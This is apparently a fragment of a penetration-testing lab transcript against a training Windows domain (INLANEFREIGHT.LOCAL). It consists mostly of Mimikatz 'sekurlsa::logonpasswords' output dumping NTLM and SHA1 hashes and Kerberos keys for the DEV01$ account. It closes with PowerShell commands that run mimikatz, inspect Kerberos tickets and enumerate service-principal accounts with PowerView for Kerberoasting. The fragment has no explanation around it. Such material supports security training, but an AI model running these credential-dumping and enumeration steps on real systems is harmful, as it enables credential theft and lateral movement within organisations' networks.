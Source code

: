 ```powershell
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :
        credman :

Authentication Id : 0 ; 45178 (00000000:0000b07a)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-96-0-0
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :
        credman :

Authentication Id : 0 ; 44190 (00000000:0000ac9e)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               :
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
        kerberos :
```

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname